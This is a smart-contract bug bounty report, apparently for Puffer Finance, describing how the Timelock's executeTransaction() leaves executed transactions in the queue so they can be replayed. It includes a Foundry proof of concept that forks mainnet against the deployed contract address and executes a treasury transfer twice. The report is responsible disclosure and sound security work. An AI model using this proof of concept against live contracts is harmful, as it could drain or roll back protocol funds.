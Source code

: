 # Double spending or double execution of transaction is possible by passing delay period of Timelock contract

Submitted 24 days ago by @codesentry (Whitehat) for Boost | Puffer Finance

Report ID: #28971

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA#code

# Impacts
- Protocol insolvency
- Permanent freezing of unclaimed yield
- Temporary freezing of funds for at least 1 hour

# Details

COMMUNITY_MULTISIG wallet can execute the transaction queued by OPERATIONS_MULTISIG . Transaction is not removed from queue when COMMUNITY_MULTISIG execute it. In this case OPERATIONS_MULTISIG can execute same transaction again. This is a sever bug and can cause double spending, double execution of transaction. Even OPERATIONS_MULTISIG can execute tx without waiting for delay period to pass. All scenario explained in ## Impact Details section.

# Vulnerability Details
This bug is in `executeTransaction()` method of TimeLock contract. OPERATIONS_MULTISIG queue a transaction and COMMUNITY_MULTISIG execute it by calling below method

`executeTransaction(target, callData,operationId)`

Whenever COMMUNITY_MULTISIG execute it, it does not remove it from queue. This tx exist in queue even it has been executed by COMMUNITY_MULTISIG hence OPERATIONS_MULTISIG can execute it again.

Steps

1. OPERATIONS_MULTISIG calls
 `timelock.queueTransaction(target, callData, 1);`

2. Time delay passed but actually transaction executed by COMMUNITY_MULTISIG.
COMMUNITY_MULTISIG calls timelock.executeTransaction(target, callData, 1);

3. OPERATIONS_MULTISIG is able to call same tx again even thought it has already been executed by COMMUNITY_MULTISIG.
OPERATIONS_MULTISIG calls below method successfully.
timelock.executeTransaction(target, callData, 1);

This result in calling timelock.executeTransaction(target, callData, 1) two times.

# Impact Details
Below are some scenario that explains the impact. There are can be multiple scenarios exists but I writing two examples below

Scenario1:

1. OPERATIONS_MULTISIG queue a transaction to upgrade implementation contract of PufferDepositor to implV2. This upgrade is being done to fix a bug.
2. After tx was queued, community found that bug is sever hence upgrade the proxy contract immediately by calling timelock.executeTransaction(target, callData, 1) by COMMUNITY_MULTISIG. Now proxy's implementation contract is implV2.
3. After few days community found that implV2 also has another sever bug hence it upgrade to implV3 by executing timelock.executeTransaction(target, callData, 2) immediately.
4. Previous queued transaction was not removed from queue. OPERATIONS_MULTISIG calls timelock.executeTransaction(target, callData, 1) and upgrade proxy to old version which has some bug.

Implication of this scenario is that proxy is upgraded to old version by OPERATIONS_MULTISIG without waiting for delay period.

Scenario 2: Timelock contract is owner of some treasury contract. Treasury contract has some ERC20 balance.

1. OPERATIONS_MULTISIG queue a transaction to transfer 10 token to Alice for operationId =1 .
2. COMMUNITY_MULTISIG execute this transaction and transfers 10 token to Alice. 3) OPERATIONS_MULTISIG execute same tx and transfer 10 more token because tx is not removed from queue.

Net result is loss of asset or double spending of treasury asset.

Upgrade from implV3 to implV2 is done with no waiting or delay period. This can have serious implication for users as proxy upgraded to older version that too without wait.

Overall timelock contract has sever bug in executeTransaction(). Ideally this should remove the queued tx if already executed.

# References
Add any relevant links to documentation or code

# Proof of concept

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import {Test} from "forge-std/Test.sol";
import {IERC20} from "openzeppelin/token/ERC20/IERC20.sol";
import {Ownable} from "openzeppelin/access/Ownable.sol";

interface ITimeLock {
    function executeTransaction(
        address target,
        bytes calldata callData,
        uint256 operationId
    ) external returns (bool success, bytes memory returnData);

    function queueTransaction(
        address target,
        bytes memory callData,
        uint256 operationId
    ) external returns (bytes32);

    function delay() external view returns (uint256);

    function COMMUNITY_MULTISIG() external view returns (address);

    function OPERATIONS_MULTISIG() external view returns (address);
}

contract Treasury is Ownable {
    constructor(address _initialOwner) Ownable(_initialOwner) {}

    function transferAsset(
        IERC20 _token,
        address _recipient,
        uint256 _amount
    ) external returns (bool) {
        return _token.transfer(_recipient, _amount);
    }
}

contract TimeLockBugPOC is Test {
    // This is the keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1.
    bytes32 constant IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    ITimeLock public timelock;

    Treasury public treasury;

    address alice = makeAddr("alice");

    IERC20 CVX = IERC20(0x4e3FBD56CD56c3e72c1403e103b45Db9da5B9D2B);

    address COMMUNITY_MULTISIG;
    address OPERATIONS_MULTISIG;

    function setUp() public virtual {
        vm.createSelectFork(vm.envString("NODE_URL"));
        timelock = ITimeLock(0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA);

        treasury = new Treasury(address(timelock));

        deal(address(CVX), address(treasury), 200e18);

        COMMUNITY_MULTISIG = timelock.COMMUNITY_MULTISIG();
        OPERATIONS_MULTISIG = timelock.OPERATIONS_MULTISIG();

        vm.label(COMMUNITY_MULTISIG, "COMMUNITY_MULTISIG");
        vm.label(OPERATIONS_MULTISIG, "OPERATIONS_MULTISIG");
    }

    function test_timelockBug() public {
        // step1: OPERATIONS_MULTISIG queue transaction to transfer 10 cvx
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        uint256 amountToTransfer = 10e18;
        bytes memory callData = abi.encodeCall(
            treasury.transferAsset,
            (CVX, alice, amountToTransfer)
        );
        timelock.queueTransaction(address(treasury), callData, 1);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        vm.warp(lockedUntil + 1);
        vm.stopPrank();

        // step2: Community multisig execute the queued transaction
        vm.startPrank(timelock.COMMUNITY_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);
        assertEq(CVX.balanceOf(alice), amountToTransfer);

        // step3: Operation multisig execute queued transaction once again and Alice received 10 cvx 2 times
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);

        assertEq(CVX.balanceOf(alice), 2 * amountToTransfer);
        vm.stopPrank();
    }
}
```
